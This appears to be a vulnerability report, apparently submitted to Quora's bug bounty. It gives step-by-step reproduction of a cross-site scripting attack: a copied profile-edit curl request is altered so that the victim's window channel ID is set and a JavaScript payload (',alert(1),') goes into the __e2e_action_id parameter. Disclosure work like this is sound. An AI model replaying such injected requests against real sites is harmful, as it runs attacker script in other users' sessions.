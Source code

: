 
### Steps To Reproduce

I describe the steps using browser Chromium, but it is not stricly necessary

1. Attacker log in on Quora.com and goes on its profile page 
2. Attacker open developer tools of its browser and goes on the "Network" tab
3. Attacker update its profile description using dummy data and copy the request performed on `server_call_POST?_m=edit`, eg:
    
    ```curl 'https://www.quora.com/webnode2/server_call_POST?_v=2rtUq6Z4HO9gWK&_m=edit' -H 'Cookie: m-b="██████████████████"; m-sa=1; m-s="███████████████"; m-screen_size=1920x1080; m-login=1; m-ju=███████████████████████████; m-early_v=4e4c117b82baf40e; m-tz=-120; m-css_v=69026465bc2615b6; m-wf-loaded=q-icons-q_serif; _ga=GA1.2.2058437224.1502195915; _gid=GA1.2.1848940326.1502195915' -H 'Origin: https://www.quora.com' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: it-IT,it;q=0.8,en-US;q=0.6,en;q=0.4' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Accept: application/json, text/javascript, */*; q=0.01' -H 'Referer: https://www.quora.com/profile/Aleph-NaN' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'DNT: 1' --data 'json={"args":[],"kwargs":{"id":███████████,"input":{"sections":[{"type":"plain","indent":0,"quoted":false,"spans":[{"modifiers":{},"text":"a"}]}],"caret":{"start":{"spanIdx":0,"sectionIdx":0,"offset":1},"end":{"spanIdx":0,"sectionIdx":0,"offset":1}}}}}&revision=904d048187b642341464067b64246119b8ce9489&formkey=6a34c75ed7fda8439ca2407b4520c974&postkey=736f2eea9e3826808823625bf4ede215&window_id=dep3204-1727465467565139446&referring_controller=user&referring_action=profile&_lm_transaction_id=0.7159021828610441&_lm_window_id=dep3204-1727465467565139446&__vcon_json=["2rtUq6Z4HO9gWK"]&__vcon_method=edit&__e2e_action_id=esl2xq4xyj&js_init={"id":████████████,"input":"user_description_text","typing_area":null,"draft_space":null,"unsaved_content_msg":"Your content has not been saved.","focus_onload":false,"is_qtext":true,"require_comment":false,"require_value":false,"content_type":null,"submit_text":"Update","show_editor":false}&__metadata={}' --compressed ```
4. the attacker obtain the victim channel name, eg: `dep3501-3261853912009855464`
5. the attacker modify its previusly copied request, setting the `window_id` and `_lm_window_id` parameters to the victim channel name
6. the attacker modify the request, setting the `__e2e_action_id` parameter to inject its javascript payload, for example to `',alert(1),'`, eg: 
    ```curl 'https://www.quora.com/webnode2/server_call_POST?_v=2rtUq6Z4HO9gWK&_m=edit' -H 'Cookie: m-b="██████████████"; m-sa=1; m-s="█████████████████"; m-screen_size=1920x1080; m-login=1; m-ju=███████████████████████████████████████; m-early_v=4e4c117b82baf40e; m-tz=-120; m-css_v=69026465bc2615b6; m-wf-loaded=q-icons-q_serif; _ga=GA1.2.2058437224.1502195915; _gid=GA1.2.1848940326.1502195915' -H 'Origin: https://www.quora.com' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: it-IT,it;q=0.8,en-US;q=0.6,en;q=0.4' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'Accept: application/json, text/javascript, */*; q=0.01' -H 'Referer: https://www.quora.com/profile/████' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'DNT: 1' --data 'json={"args":[],"kwargs":{"id":█████████,"input":{"sections":[{"type":"plain","indent":0,"quoted":false,"spans":[{"modifiers":{},"text":"a"}]}],"caret":{"start":{"spanIdx":0,"sectionIdx":0,"offset":1},"end":{"spanIdx":0,"sectionIdx":0,"offset":1}}}}}&revision=904d048187b642341464067b64246119b8ce9489&formkey=6a34c75ed7fda8439ca2407b4520c974&postkey=736f2eea9e3826808823625bf4ede215&window_id=dep3501-3261853912009855464&referring_controller=user&referring_action=profile&_lm_transaction_id=0.7159021828610441&_lm_window_id=dep3501-3261853912009855464&__vcon_json=["2rtUq6Z4HO9gWK"]&__vcon_method=edit&__e2e_action_id=\',alert(1),\'&js_init={"id":████████,"input":"user_description_text","typing_area":null,"draft_space":null,"unsaved_content_msg":"Your content has not been saved.","focus_onload":false,"is_qtext":true,"require_comment":false,"require_value":false,"content_type":null,"submit_text":"Update","show_editor":false}&__metadata={}' --compressed ```
7. the attacker send the request
8. on the victim page will be executed `alert(1)`
